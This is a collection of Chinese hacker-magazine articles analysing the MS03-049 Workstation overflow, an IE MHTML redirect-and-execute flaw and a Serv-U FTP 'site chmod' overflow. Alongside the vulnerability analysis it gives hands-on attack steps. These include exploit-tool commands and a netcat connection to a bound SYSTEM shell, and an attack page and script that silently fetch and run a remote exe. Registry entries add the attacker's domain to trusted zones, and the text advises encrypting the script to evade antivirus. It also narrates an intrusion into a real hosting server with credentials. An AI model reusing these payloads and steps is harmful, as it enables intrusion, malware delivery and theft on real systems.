脚本小子：我，就是传说中神勇无敌的脚本小子！（鸡蛋满天飞！）……干嘛砸我啊！说什么我也是精通脚本漏洞、系统漏洞的“人才”嘛！（泪流满面“阴险”地站起来……）不过，与刘大哥相比我还是差那么一点点的（wtf：嘿嘿，平时闹翻天了，还是有人治你嘛！给我老实点！）……笑，读者朋友们看到我的悲惨遭遇了吧？他们都欺负我啊！不过，悄悄地告诉大家：他们系统内的情节什么的我可是全弄到了哦！哪天他们不请我吃饭的时候，嘿嘿，我就发到论坛上！呵呵，值得关注哦！

从 2004 年开始，我就正式负责“脚本攻防”和“漏洞攻防”版块了，这里向大家保证，一定给大家带来最新最实用的脚本漏洞和系统漏洞，让大家都能更好地学习跟踪这方面的知识，做到“攻”“防”双丰收！大家可以给我写信聊聊技术（scriptsboy@hacker.com.cn）……本期我给大家带来了最新的 Windows Workstation 服务远程溢出漏洞分析，算是给大家的见面礼了！不用谢啦，不用谢……

难度等级：高　　前置知识：汇编语言

## Windows Workstation 服务远程溢出漏洞分析

文 / LBXX

微软最近为了减轻系统管理员的工作负担，把发布安全公告的周期从不定期改为定期发布，这无疑给系统管理员安装补丁提供了极大的方便，可以一起安装几个补丁，而不用为每个补丁都折腾一番。在 2003 年 11 月 11 日，微软又一起发布了 3 个安全公告，其中漏洞危害等级最高的当属 MS03-049，Windows Workstation 服务远程溢出漏洞了。以下我们就这个漏洞的一些具体信息展开探讨。

关于这个漏洞的安全公告可以从 http://www.microsoft.com/technet/security/bulletin/MS03-049.asp 看到。但是按照惯例，微软网站上的安全公告只有一些关于漏洞的简单描述、受影响平台、补丁下载地址等，不会有详细的技术信息，这点信息对系统管理员来说已经足够了，但对想深入了解一些技术细节的读者来说是远远不够的。那么，一般情况下我们该从何处去了解漏洞的详细技术信息呢？一般有 3 种途径：

- 在安全公告的后面，一般会有“感谢某某人/某某公司/某某组织发现并向微软提交漏洞”这样的信息，然后我们就可以尝试去漏洞发现者的网站上找找看有没有关于漏洞的详细技术信息。
- 关注一些黑客/安全论坛、邮件列表等等，一般情况下在那些地方都会就漏洞展开一些深入的探讨。
- 自己独立研究。假如上述途径不行，那就只有靠自己了。

本文提到的漏洞是由世界著名的网络安全公司 EEYE Digital Security 的安全研究人员发现的，在他们公司的网站上也公布了关于此漏洞的详细技术信息，我们可以从 http://www.eeye.com/html/Research/Advisories/AD20031111.html 获得这些信息（英文）。

### 详细技术信息

Microsoft DCE/RPC 服务可以提供网络管理功能，这些功能提供管理用户账户和网络资源管理，部分网络管理功能在 Windows 目录下的 debug 子目录会生成调试日志文件。

微软 Windows 2000 和 Windows XP 中的 Workstation 服务在处理日志记录时缺少充分的边界缓冲区检查，远程攻击者可以利用这个漏洞提供超长参数触发缓冲区溢出，以 SYSTEM 权限（Workstation 服务默认以 SYSTEM 权限运行）在系统上执行任意指令。

日志功能中使用 `vsprintf()` 在日志文件中生成字符串，日志文件名为 `NetSetup.LOG`，它保存在 `%SYSTEMROOT%\debug` 目录中。这个记录函数有部分处理 Workstation 服务命令的函数调用，如 `NetValidateName`、`NetJoinDomain` 等，在 `NetValidateName()` 这个函数中，computer name 作为第二个参数最终记录在日志文件中。例如，我们使用如下形式调用 `NetValidateName()` API：

```c
NetValidateName(L"\\\\192.168.0.100", "AAAAAAAA", NULL, NULL, 0);
```

那么，我们可以在远程主机中产生如下记录条目：

```text
08/13 13:01:01 NetpValidateName: checking to see if "" is valid as type 0 name
08/13 13:01:01 NetpValidateName: "" is not a valid NetBIOS "AAAAAAAA" name: 0x57
```

如果我们指定超长字符串作为 `NetValidateName()` API 的第二个参数，如果调试文件可写就可以在特定主机上发生缓冲区溢出。

一般如果是 NTFS 文件系统，在 Windows 目录中的 debug 目录不允许所有人可写，这表示不能使用 NULL 会话来生成日志。因为 `WslmpersonateClient()` API 在打开日志文件前调用，如果连接客户端没有有效权限来写日志文件，那么 `CreateFile()` 就会失败，`vsprintf()` 就不会被执行，因此此漏洞在 FAT32 系统和 `%SYSTEMROOT%\debug` 目录可写的情况下可被利用。

但是，在 Windows XP 上实现了部分扩展的 RPC 函数，这些函数在调用 `WslmpersonateClient()` 前打开日志文件，不过这些 RPC 函数没有提供文档化说明，但可以通过观察 `WKSSVC.DLL` 中的函数表得到。

这些扩展命令的 RPC 号开始于 `0x1B`，如 `0x1B` 调用 `NetpManageComputers()`，但在打开日志文件前不调用 `WslmpersonateClient()`。

`NetpManageComputers()` 的使用没有被公开化，但是我们可以在 `LMJoin.h` 中找到 `NetAddAlternateComputerName()` API 的原型定义，这个 API 从 `NETAPI32.DLL` 导出，这个 API 也一样没有文档化。

我们可以使用如下形式调用这个 RPC 函数（`0x1B`）：

```c
NetAddAlternateComputerName( \\192.168.0.200, long_unicode_string, 0, 0, 0 );
```

使用上述方法，我们不需要任何特殊权限（只需要有能建立 IPC NULL Session 的权限），便可使得远程主机把第二个参数写到它的日志文件中去，如定义超长 Unicode 字符串作为第二个参数（"AlternateName"），在第一个参数指定的远程系统就会由于缓冲区溢出而崩溃。Unicode 字符串 `long_unicode_string` 会在日志记录函数调用前被转换为 ASCII 字符串。

### 汇编代码分析

从以上的详细技术信息中，我们可以得知有两种攻击方法。

- 1. 调用 `NetValidateName` 函数，提供超长参数，发送至目标主机。  
  - 适用环境：Windows 2000、Windows XP。  
  - 条件限制：目标文件系统为 FAT32，或 WINNT 目录下的 DEBUG 任何人都具有写权限。

现在很少有 Windows 2000/XP 系统使用 FAT32 作为文件系统了吧？而且默认情况下，WINNT 目录下的 DEBUG 目录只有管理员是具有写权限的，所以利用这种攻击方法没有实际意义。

当我们调用 `NetValidateName` 函数给目标主机发送一段超长数据后（假如目标系统满足上述条件限制），系统处理流程如下（以 Windows 2000 Server 英文版为例）：

```text
wkssvc!NetpValidateName
└─ wkssvc!NetSetupOpenLog
```

```text
wkssvc!NetpLogPrintHelper
└─ wkssvc!NetpLogPrintRoutineV
└─ wkssvc!NetpDebugDumpRoutine
```

- 2. 调用 `NetAddAlternateComputerName` 函数，提供超长参数，发送至目标主机。  
  - 适用环境：Windows XP。  
  - 条件限制：只要能跟目标 Windows XP 系统建立 IPC NULL Session 就可以进行攻击。

当我们调用 `NetAddAlternateComputerName` 函数给目标主机发送一段超长数据后（假如目标系统满足上述条件限制），系统处理流程如下：

```text
wkssvc!NetAddAlternateComputerName
└─ wkssvc!NetpManageAltComputerName
└─ wkssvc!NetSetupOpenLog
└─ wkssvc!NetpLogPrintHelper
└─ wkssvc!NetpLogPrintRoutineVEx
└─ wkssvc!NetpDebugDumpRoutine
└─ MSVCRT!vsprintf
```

由上述内容我们可以看到，不管是哪种攻击方法，不管是攻击 Windows 2000 还是 Windows XP 平台，目标系统处理的流程都差不多，出现漏洞的都是 `wkssvc.dll` 中一个函数名为 `NetpDebugDumpRoutine` 的函数。

OK，我们现在就来分析一下出现漏洞的那个函数的汇编代码，看看漏洞是怎么产生的！

以下汇编代码（由最强悍的反汇编软件 IDA 分析所得）分析基于 Windows XP 简体中文专业版，没有安装任何补丁，`wkssvc.dll` 的版本为 `5.1.2600.0`（所以你在不同版本下看到的汇编代码可能稍有不同）。

> **脚本小子**：由于篇幅限制，本文涉及到的详细代码请查看光盘“源代码”栏目。按照文章各章节即可找到对应的汇编代码，字数缩略，省去些无关紧要的代码。

### 漏洞利用难点分析

- 1. 通过 `NetValidateName` 函数发起攻击

如前所述，攻击 Windows 2000 和 Windows XP 平台均可以通过调用 `NetValidateName` 这个函数来实现。但是，目标系统在处理这个函数发送的数据包过程中，在调用有漏洞的函数 `wkssvc!NetpDebugDumpRoutine` 将超长参数记录到日志文件触发缓冲区溢出之前，目标系统会先调用 `WslmpersonateClient` 函数，模拟客户端的权限，以客户端提供的有效访问令牌的权限去打开日志文件。

也就是说，假如你跟目标系统建立的只是 IPC NULL Session（空会话），那么目标系统是以空会话的权限去打开日志文件的。这样我们的问题就来了！当文件系统是 NTFS 的情况下，Windows 2000 和 Windows XP 下的日志文件默认只有 SYSTEM 和管理员组才有权限写。

如果以空会话的权限去打开日志文件会失败，那么也就无法触发后面的缓冲区溢出了！所以，只有当目标系统是 FAT 格式文件系统时（因为 FAT 文件系统没有权限一说），或日志文件对任何人具有可写权限时（没有管理员会这样设置吧？），这种方法才能攻击成功！

### 2. 通过 NetAddAlternateComputerName 函数发起攻击

这个函数只在 Windows XP 系统中的 netapi32.dll 中实现了，在 Windows 2000 中没有实现这个函数，所以不能调用这个函数对 Windows 2000 发起攻击，只能在 Windows XP 平台下对 Windows XP 平台发起攻击。利用这个函数，只要能跟目标 Windows XP 系统建立空会话就可以了。

当然，我们也可以通过嗅探 NetAddAlternateComputerName 函数所生成的数据包，分析数据包格式，自己重组这个 RPC 数据包，这样就可以在别的平台上对 Windows XP 发起攻击了。

### 3. 字符转换

从前面的汇编代码分析中我们可以看到，攻击测试时发送的超长字符串会被转换成什么字符，直接取决于 vsprintf 函数的第一个参数（格式化串）。

### 1) NetpValidateName

调用 NetpValidateName 函数发送超长字符串到目标系统时，目标系统会两次调用 vsprintf 函数把这些字符串保存在堆栈中。

第一次的格式化串为：

```text
NetpValidateName : checking to see if '%ws' is valid as type %d name
```

第二次的格式化串为：

```text
NetpValidateName : '%ws' is not a valid NetBIOS %s name: 0x%lx
```

对于格式化串 `%ws`，本质上它就是一个 WideChar 到 MultiByte 的转换过程，即是说把我们源字符串当作 UNICODE 串，然后把它转换成 ANSI 字符串。在不同的平台下，对于 `%ws` 格式，vsprintf 的处理过程还有些差别，在下一部分我们再详细阐述。

虽然第一次和第二次的格式化串中都有 `%ws`，但在第二次的格式化串中还有一个 `%s`，所以，利用这个攻击测试时发送的超长字符串就不会被改变，即是说 shellcode 不会被转换成其他字符。

所以，利用 NetpValidateName 函数来发起攻击是相对比较容易的！

### 2) NetAddAlternateComputerName

调用 NetAddAlternateComputerName 函数发送超长字符串到目标系统时，目标系统只有一次调用 vsprintf 的处理。格式化串为：

```text
AlternateName = %ws
```

在 WideChar 到 MultiByte 的转换过程中，假如转换后的 MultiByte 不是合法的字符（合不合法取决于系统默认的 CODEPAGE），那么就会被截断或替换。事实上，在不同的平台下，vsprintf 函数对 `%ws` 的处理有些差别。

攻击 Windows XP SP0 英文版本时，可先把 shellcode 用函数 MultiByteToWideChar 进行转换（转换时用英文系统的 CODEPAGE）发送，目标系统在处理时，会做 WideCharToMultiByte 的操作（即 `%ws`），等于就把 shellcode 还原回到本来面貌了。

攻击 Windows XP SP0 中文版时，可按上述方法把字符先进行编码（编码时必须用中文系统的 CODEPAGE），但是这对 shellcode 就有要求了，shellcode 必须符合这样的要求：经过 MultiByteToWideChar 和 WideCharToMultiByte 双重转换后不被改变。

攻击 Windows XP SP1 中英文版本时，只需要把 shellcode 做如下转换即可：

```text
\xXX\xXX -> \xXX\x00\xXX\x00
```

所以，调用 NetAddAlternateComputerName 函数攻击 Windows XP 英文版本 SP0、SP1 是比较简单的。攻击 Windows XP 中文版 SP1 也比较简单，但攻击 Windows XP 中文版 SP0 就比较复杂了，需要编码符合要求的 shellcode。

### 测试代码一览

在微软发布这个漏洞的安全公告后不久，网上就有不少针对此漏洞的攻击测试代码在流传，以下我们就各攻击测试代码做一简要的介绍。

- 1. s03049.rar，作者 sbaa，可测试 Windows 2000 和 Windows XP。  
  - 源代码及分析链接: http://www.dav1d.org/list.asp?Unid=220  
  - 可执行文件下载链接: http://sbaa.3322.org/public1/tool/ms03049.rar
- 2. ms03-049-2.c，作者 snooq，可测试 Windows 2000。  
  - 源代码链接: http://www.xfocus.net/tools/200311/ms03-049-2.c
- 3. WorkstationOverflow_MS03-049.c，作者 Hanabishi Recca，可测试 Windows 2000。  
  - 源代码链接: http://www.xfocus.net/tools/200311/WorkstationOverflow_MS03-049.c
- 4. Ms03-049.cpp，作者 wirepair，可测试 Windows XP SP0。  
  - 源代码链接: http://www.dav1d.org/list.asp?unid=212

有兴趣的朋友可以通过上面的代码具体测试一下。非常遗憾的是，现在还没有绝对好的防范方法，只有升级补丁了。我们在《上册》关于此漏洞的防范进行了讨论，有兴趣的读者记得一阅哦！

## WorkstationService 远程溢出漏洞攻击战

**脚本小子：** Windows 素以漏洞繁多著称，最近微软公司的 Windows 2000 和 Windows XP 操作系统中又发现了新的安全漏洞（MS03-049），即这两个操作系统中的 WorkstationService（工作站服务）中存在缓冲溢出漏洞。这种漏洞可让黑客进行远程攻击，并最终让系统不能正常工作。本文针对该漏洞的利用进行了讨论，并给出防护建议。

- 难度等级：低
- 前置知识：Windows 2000/XP 相关使用经验

Windows 操作系统最近又发现了一系列安全漏洞，其中最为严重的是 Windows WorkstationService（工作站服务）远程溢出漏洞。该服务是系统赖以正常运行的基础服务之一，攻击者可利用漏洞进行远程溢出并获取系统权限，执行任意命令。

在 NetValidateName() 中，computer name 作为指定的超长字符串（第二个参数）时，如果调试文件可写，就可能在特定主机上触发缓冲区溢出。FAT 文件系统下更可能被成功利用，从而获取系统权限或导致 Workstation 服务失效。

受此漏洞影响的系统包括：Windows 2000 SP2/SP3/SP4、Windows XP/SP1、Windows XP 64-Bit Edition；不受影响系统包括：Windows Server 2003。

### 漏洞情况

WorkstationService（工作站服务）是 Windows 操作系统赖以正常运行的基本服务之一，在 Windows 2000 和 XP 中默认配置为“ON”。它主要用于让网络中的计算机访问文件服务器及网络打印机。


造成漏洞的主要原因是 Microsoft Workstation 服务在处理日志记录时边界检查不足，在 wkssvc.dll 的 vsprintf 调用中未检查输入缓冲长度。通过 NetValidateName 提供超长参数可触发缓冲区溢出，从而以 SYSTEM 权限执行任意指令。

### 攻击方法

目前网上已出现该漏洞的攻击代码和攻击程序，利用后可攻击 FAT32 文件系统的 Win2000 并获取系统权限，因此属于高危漏洞。用户应尽早修补漏洞。

文中使用 Hanabishi 编写的攻击工具 ms03049.exe（图 2）进行测试，先查看其用法。


```text
On 2k:
ms03049XP <target> attack 2k without ntfs
On xp:
...
```

## 漏洞攻击 / EXPLOIT ATTACK

```text
ms03049 IP 2k -> attack 2k without ntfs
ms03049 IP -> attack xp
Next open another window: nc IP 1234 -> Get cmd shell
```

如果在 Windows 2000 上要对 192.168.1.11 主机进行测试攻击，只要输入 ms03049.exe 192.168.1.11 就行，不用管它是 2000 还是 XP；如果是在 Windows XP 上要对 192.168.1.11 主机进行测试攻击，那就要有些区别了，输入 ms03049.exe 192.168.1.11 2k 表示攻击 2000 系统，ms03049.exe 192.168.1.11 则表示攻击的是 XP 系统。攻击后如果溢出成功，就会在对方主机的 1234 端口绑定一个 cmd shell；我们只要使用 nc 192.168.1.11 1234 或者 telnet 上去就可以执行命令了。

OK，我们接着进行实战测试。打开命令行工具，我所用的系统是 Windows XP，攻击测试目标 192.168.1.11 也是 Windows XP，所以在 CMD 中输入 ms03049.exe 192.168.1.11（图 3）。攻击时客户端先要和目标主机建立 IPC$ 连接，然后用 NetValidateName 进行交互，之后才能触发溢出。


如果攻击时出现“Can't create null session!”的提示就说明攻击没有成功（图 4）。


如果出现图 3 中的“1726”的提示，则说明溢出成功，可以使用 nc 192.168.1.11 1234 或者 telnet 上去执行命令了：telnet 192.168.1.11 1234，不出意外的话你就可以得到一个 system 权限的 Shell 了（图 5）。


编后：人无完人，程序亦如此。但只要不是致命的程序设计缺陷，总是有办法修补的。虽然 Windows 的 Bug 很多，但是它的主人 Microsoft 还是很认真、很负责的。只要我们密切注意微软的安全公告，及时打上补丁，还是能够在凶险的数字海洋中安然渡过的。同时，我们在《上册》中也针对此漏洞提出了相关的解决办法，感兴趣的读者要留意着啦！

**脚本小子：** 2003 年 12 月初，微软又公布了新的漏洞，此漏洞是针对 Microsoft Internet Explorer 浏览器的，最早由 Liu Die Yu 提交的 BugTraq 中发现了“Microsoft Internet Explorer MHTML 文件重定向并执行漏洞”。那么，什么是 MHTML 文件重定向漏洞？什么又是 MHTML 文件？应该怎样利用这个漏洞攻击？又应该怎样防御此类攻击？看了本文，你就会一切都明白了。

## 微软 IE MHTML 文件：重定向并执行漏洞分析

文/图 风清扬

### 漏洞文件类型介绍

#### 1. MHTML 文件简介

MHTML 即 MIME Encapsulation of Aggregate HTML，是一种 Internet 标准，它定义了用于在电子邮件正文中发送 HTML 内容的 MIME 结构。Windows 中的 MHTML URL 处理程序是 Outlook Express 的一部分，提供可以在本地计算机上使用的 URL 类型。该 URL 类型（MHTML://）使 MHTML 文档可以从命令行、“运行”对话框、通过 Windows 资源管理器或从 Internet Explorer 内部启动。

#### 2. MHTML 文件的问题所在

- （1）MHTML URL 处理程序中存在一个隐患，它使得能够将任何可以以文本方式呈现的文件在 Internet Explorer 中作为网页的一部分打开和呈现。这意味着可以构建一个 URL，使其指向一个存储在本地计算机上的文本文件并将该文件呈现为 HTML。因为该文件驻留在本地计算机上，所以它将在“本地计算机安全区域”内呈现。在本地计算机区域内打开的文件与在其他安全区域中打开的文件相比，受到的限制更少。
- （2）“MHTML://”指定的文件，无论是什么样的文件形式，都会被当作 HTML 文件来处理，这正是问题所在。比如，如果用 MHTML:// 指定记录脚本的文本文件（.txt），就会运行这一脚本，并且即使嵌入“MHTML://”链接的网页是 Internet 区域，也会在安全级别最低的“本地计算机区域”运行。MHTML URL 处理程序能够将任何文件类型如同 HTML 文件那样进行处理。例如，如果一个 .txt 文件被使用 MHTML 协议打开，则可以像 HTML 文件那样呈现该文件。这会造成安全隐患，因为某些文件（如文本文件）经常被视为“安全文件类型”，并且 Web 页可能使其在本地计算机区域中打开。如果此类文件包含可执行脚本，并且可使该脚本执行，则该文件可能使用与本地计算机区域而不是 Web 站点相关联的特权来完成此操作。
- （3）IE 浏览器由于不能正确限制远程站点访问本地资源，远程攻击者可利用此缺陷通过构建恶意页面，诱使用户访问，在本地域中执行任意本地文件。Internet Explorer version 6 SP1 由于没有正确限制远程站点通过 file:// 或 res:// URIs 访问本地资源，这种限制可以通过其中一个协议在指定资源上增加一个“//”符号绕过。如果结合其他安全缺陷，允许攻击者构建恶意的页面，当目标用户访问后在可预测位置中建立文件，并会通过畸形 IFRAMES、OBJECT 在本地域中执行。
- （4）而 Microsoft Internet Explorer MHTML 文件重定向并执行漏洞则是利用“Microsoft Internet Explorer 在处于安全区域中处理 MHTML 文件和 res URIs 存在问题，远程攻击者可以利用这个漏洞从恶意位置装载嵌入对象执行。”

### MHTML 文件重定向漏洞的利用

不得不说，这个 IE 漏洞又将我们的 IE 安全性大大地降低了，降低到没有任何安全性可言！为何要这样说呢，通过下面的介绍你就会明白。

MHTML 文件漏洞攻击的方法和目的：攻击者可以通过以下方法来利用该隐患。用 MHTML 格式炮制一个 URL，并引诱用户访问承载该 URL 的 Web 站点。如果攻击者能够猜到用户本地系统中包含恶意脚本的文件所在的位置，或能够将恶意脚本放到用户计算机上的已知位置中，则就可以使该脚本在 HTML 页中执行。攻击者可以尝试使用 MHTML URL 处理程序将用户计算机上已经存在的文件作为 HTML 页进行呈现。如果攻击者能够将包含恶意脚本的 .txt 或 .exe 等文件放在用户的计算机上，则他/她随后就可以尝试使用 MHTML URL 处理程序将该文件作为 HTML 文件打开，从而使脚本得以执行。在本地计算机区域中运行的脚本受信任的程度通常要比在 Internet 区域中运行的脚本高，后者通常是从 Web 站点下载和调用的。然而，通过 Web 站点直接下载文件到计算机内而不产生任何提示，这又将是一个大问题，怎么做才能完全通过 IE 的安全设置？在谈这个问题之前，我们还是先看一下 Microsoft Internet Explorer MHTML 文件重定向并执行漏洞的执行条件。

当 MSIE 可以尝试获取嵌入在 MHT 文件中的文件：  
mhtml:[Mhtml_File_Url]![Original_Resource_Url]。如果 [Original_Resource_Url] 不能从 [Mhtml_File_Url] 中获取，IE 就会尝试下载 [Original_Resource_Url] 并返回下载内容，这类似 HTTP 重定向，并且 CODEBASE 执行是基于 URL 检查，因此在本地电脑安全中，把一个没有使用 CLSID 的 OBJECT 标记的 CODEBASE 属性指向：mhtml:file://c:\No_SUCH_MHT.MHT![Attaker_PayloadEXE_Url]，IE 就会下载 [Attaker_PayloadEXE_Url] 并执行。

- 于是根据此问题，我们在本地机进行了一次漏洞测试，测试的经过如下：
- 制作标准攻击页面 `attr.html`，代码如下：

```html
html
<object name='x' classid='clsid:12345678-1234-1234-1234-123456789012' codebase='mhtml:file://C:\NO_SUCH.MHT.MHT!http://127.0.0.1/mhtml/mhtml.exe'>
* 确认建立 mhtml.exe 文件存在
* 执行 attr.html
* 运行结果为 mhtml.exe 在本地直接运行
```

本地测试成功，整个攻击过程内没有任何提示便直接运行了 mhtml.exe 文件。接下来，进行远程下载 EXE 文件攻击测试。

结果一定是失败的，IE 本身的安全设置由于远程 Web 站点的可信度问题，使文件下载没有通过安全策略（注：我不清楚其他人在测试时是否出现了这样的问题，我在测试远程攻击的时候从远程站点下载 EXE 文件时，出现了以上的问题）。所以，在解决这个问题上，我花了一些时间。

如何使 EXE 文件在下载时无任何提示？通过一系列的测试之后，我得到了答案：我将存放 EXE 文件的站点加到可信站点或本地 Internet 区域，然后重启 IE 就可以了。问题就在如何将下载站点加到可信任站点或者是本地 Internet 区域，由于前几次的 IE 漏洞补丁和个人用户本地的防毒软件，几乎使 IE 网页手段修改注册表成为不可能。我在此又分析了一下防毒软件在过滤恶意脚本时所采用的特征码。

详细代码请查看光盘“源代码”栏目，按照文章名查找即可。

从以上语句我们就可以看到，基本上完成了所有的操作，包括修改注册表，保留自身保护操作的自启动程序，以及操作完毕自删除。然而最可怕的是，所有的杀毒软件对它都不敏感，没有一个软件报警。好了，一切准备好了，就等被攻击的用户再次开机了，等他再次开机，注册表就会自动被修改，IE 会自动打开到我们构建好的网页，在一般人看来好像是简单地中了修改注册表的病毒，最多是把 IE 修复一下，然而我们埋在网页背后的阴谋也就得逞了。

另外，补充一点的是，修改注册表的关键所在是……

## 漏洞攻击 EXPLOIT ATTACK

以下两条注册表信息，作用是添加我们的 EXE 文件下载站点到计算机的本地 Internet 区域和可信任站点区域内：

HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings\ZoneMap\Domains\e3i5.net/  // e3i5.net 为我们的下载站点域名

HKEY_USERS\S-1-5-21-73586283-854245398-1417001333-1000\Software\Microsoft\Windows\CurrentVersion\Internet Settings\ZoneMap\Domains\e3i5.net  // e3i5.net 为我们的下载站点域名

好了，下面构建我们最新的攻击网页 hacker.htm：

```html
<script>
// 以下添加注册表修改代码若干
...
WaitForDocumentCached.TIME=100;
</script>
```

```javascript
function LaunchRemoteExe_Step2(){
  for(i=1;i<=2;i++)
    w.document.execCommand('Refresh');
}

function LaunchRemoteExe(ExeUrl){
  w=window.open('about:blank','_blank','width=1,height=1,resizable=no,location=no,left=99999,top=999');
  ...
}

LaunchRemoteExe('http://www.e3i5.com/mhtml.exe');
```

呵呵，为什么要写成这样呢？用脚本写，可以加密嘛，加密后别人不认识也就无从下手了！

以上是 Microsoft Internet Explorer MHTML 文件重定向并执行漏洞的攻击分析。由于微软并没有提供此漏洞的修复补丁，所以本文只是作为讨论性质的文章出现。文章内所提到的攻击办法，也只是我在本地个人计算机上测试通过，不代表所有计算机都可能通过以上攻击办法。另外，所有利用本文对其他用户进行攻击的，全部责任都将由攻击者负责。

### 编后

这个漏洞公布后，各大安全站点相继推出了系列漏洞利用程序；但竞争程序都有缺陷，并未完全掌握漏洞思路，本文在编制的时候作者宣言了这一点。而作者也是通过很长时间的研究才完全“搞定”这个漏洞的，相关的防范办法请看《上期》的针对该漏洞的防御文章。

## Serv-U FTP Server 远程溢出把玩体验

### 相关信息

- 发布日期：2004年1月29日
- 远程溢出获超级管理员权限：是
- 本地溢出提升为管理员权限：是
- 溢出前提条件：在 FTP 服务器里必须有可写入的账号
- 权限穿越防火墙：是
- 受影响的版本信息：Serv-U FTP Server V4.1.0.11 以及以前的任何版本
- 受影响的系统信息：
  - Microsoft Windows 95
  - Microsoft Windows 98
  - Microsoft Windows 98 SE
  - Microsoft Windows ME
  - Microsoft Windows NT 4.0
  - Microsoft Windows 2000
  - Microsoft Windows XP
  - Microsoft Windows 2003 Web Edition
  - Microsoft Windows 2003 Standard Edition
  - Microsoft Windows 2003 Enterprise Edition 64-bit
  - Microsoft Windows 2003 Enterprise Edition
  - Microsoft Windows 2003 Datacenter Edition 64-bit
  - Microsoft Windows 2003 Datacenter Edition

不受影响的版本信息：  
**Serv-U FTP Server v3.0.0**

### 漏洞描述

RhinoSoft 出品的该 FTP 服务器现在已遍布各大、中、小服务器，虚拟网站的服务器更是居多……发现了这个程序的漏洞，前面有很详细的漏洞分析，我们来看这个漏洞的入侵实例吧！GOGOGO！

### 溢出实战

前些天我朋友刚买了个空间，支持 ASP，并给了 FTP 账号……先扫描一下服务器，扫描结果如图 1：


不是吧？！只开这么少的服务？135、139、445 都关了……经过查找发现 FTP 服务器默认安装在 C:\Program Files\Serv-U。怎么没有看到 FTP 账号信息？如图 2 所示。


不错，已经发现这一缺陷，把账号信息储存在注册表了！请出我们今天的主角：lion 发布的 Serv-U FTP Server 长文件名堆栈溢出漏洞攻击代码，然后编译，在 CMD 下运行，如图 3 所示：


### 使用参数

```text
Servu <-i ip> <-t type> [-u user] [-p pass] [-d dir] [-f ftpport] [-c cbhost] [-s shellport]

参数解释：
<-i ip>        对方 IP
<-t type>      0,0,0（默认）
[-u user]      具有可写权限账户的用户名
[-p pass]      该用户名的密码
[-d dir]       FTP 里指定某个文件夹可写并访问该文件夹
[-f ftpport]   FTP 开的端口（默认 21）
[-c cbhost] [-s shellport] 可省略
```

OK！参数搞清楚了，我们就开始溢出喽~

```text
Servu.exe -i 61.152.***.*** -t 0 -u qingkong -p woyao1hujk -f 21
```

> 脚本小子：有的 FTP 并不是根目录就可写入，这样我们就要再加上 [-d dir] 参数……


**脚本小子：**Serv-U 是很多站点使用的 FTP 服务器端，如果这个服务器端出现漏洞，对我们的网络来说影响可就大了！这不，最近绿盟就发布了 Serv-U 存在溢出漏洞的安全公告！相信关注漏洞的你都知道了这个事吧！同时，继 Fishsky 在我们黑防首发了 RPC 漏洞后，这次 KKQQ 也是自己发现的漏洞！并在较短的时间内通知了我们，多谢大家对黑防的信任和支持！希望越来越多的朋友能发现漏洞并通知我们，我们会及时地告诉广大朋友的！

今天，我们就把发现漏洞的原作者请到《黑客防线》，亲自为大家分析这个漏洞的前因后果！这是一个很好的学习机会哦，大家可不要错过！

难易程度：高级

适合对象：网络安全分析者、汇编爱好者

## 我是这样发现 Serv-U FTP 溢出漏洞的

文／KKQQ

大家好，我是 KKQQ，第一次来《黑客防线》做客。应《黑客防线》编辑部的邀请，我在这里为大家做一下“Serv-U 最新安全公告之远程 Serv-U 远程漏洞”的一些介绍。相信大家都看到了我发布的关于这个漏洞的 Exp 程序了吧，这篇文章除了向大家介绍 Serv-U 远程漏洞之外，还会涉及一些 Serv-U 的漏洞发掘方法探讨，如有不足的地方还请大家提出。

- 1. Serv-U 漏洞介绍
- 2. Serv-U 漏洞详细分析
  - Serv-U 漏洞溢出原因
  - 写权限的要求
- 3. Serv-U 漏洞发现过程中的一些问题
  - 错误模式
  - 自动化发现的障碍
- 4. Serv-U 相关的其他信息

### Serv-U 漏洞介绍

Serv-U 在处理“site chmod”命令的过程中，如果没有考虑到长文件名，将会触发一个典型的堆栈溢出。通常情况下，这个漏洞可导致攻击者获得服务器上 Serv-U 运行的权限，一般来说就是 Windows 系统中的 administrators 组或者 system 组（如果 Serv-U 以系统服务的形式运行）的权限。但这个漏洞的利用有一个前提，就是必须在用户登录到 ftp server 以后，对一个目录或者文件有可写权限。

### 漏洞详细情况

**＊Serv-U 漏洞溢出原因**

这里我们具体来看一下 Serv-U 漏洞的详细情况，首先我们来看一段汇编代码，这段代码就是 Serv-U 处理……

不看不知道，一看吓一跳！溢出后居然马上直接连接对方 C 盘！理论上穿越了防火墙，真是一个强悍的溢出程序呀！我们再来试试权限如何，添加一个管理员并把他提升为超级管理员试试。如图 5 所示。

操作成功！嗯！就这样轻松搞定！（台下欢呼声不断~~）

就这样简单！一个服务器的权限就被我拿到了！由此可见，此漏洞的攻击性是多么强！劝大家慎用此漏洞！广大网管也小心了！

> 编后语：看完这篇文章，还在用 Serv-U FTP 的网管们，快把你的“宝贝”升级到 5.0.0.0 版本吧！不然自己辛辛苦苦的服务器要什么东东都流了。


图 5

“site chmod”命令的具体代码（以 Serv-U 4.1.3 版本的反汇编为例）：

```asm
text:004194EB AE8 push [ebp+value]
text:004194F3 AEC push OFFSET ...
text:004194FA B00 push 4B4h
text:004194F5 B04 lea eax, [esi+cmdStruc...]
...
text:0041950C B04 call _sprintf
...
```

首先 Serv-U 调用 sub_41434 处的代码，这个代码的作用是从资源文件中载入字符串资源（类似 SDK 中的 LoadString）。提取到的字符串包含“%s: No such file or directory.”，随后调用 sprintf 将信息格式化到缓冲区。

```c
sprintf(edx, "%s: No such file or directory", filename);
```

这样一个伪 C 形式的代码就触发了缓冲区溢出问题，filename 的长度没有经过检查，会直接拷贝到 edx 所指向的缓冲区。

根据下边代码：

```asm
text:00419505 B00 lea edx, [ebp+buffer]
text:0041950B B00 push edx ; buffer
```

可以判断 edx 指向的是栈上分配的局部变量 buffer。若提交的文件名超出 buffer 容量，即可触发栈内缓冲区溢出。

```text
buffer
其它变量
SEH 地址
栈帧
返回地址
```

所以只要 buffer 足够长就可以覆盖 SEH 地址和返回地址。到这一步 exploit 的关键路径已经清楚。

> **脚本小子**：其实这里就是标准的堆栈溢出典型案例。很多常见服务软件并不复杂，也会存在此类溢出漏洞。

### 写权限的要求

site chmod 命令用于修改服务器上文件权限，形式类似 UNIX 的 `chmod 755 filename`。处理过程中会做特殊字符替换并尝试打开目标文件、修改属性；若失败返回对应错误消息。

```text
501 Syntax error in parameters or arguments.
550 Permission denied.
550 %s: No such file or directory.
553 %s: Cannot change attributes.
253 Attributes changed okay.
```

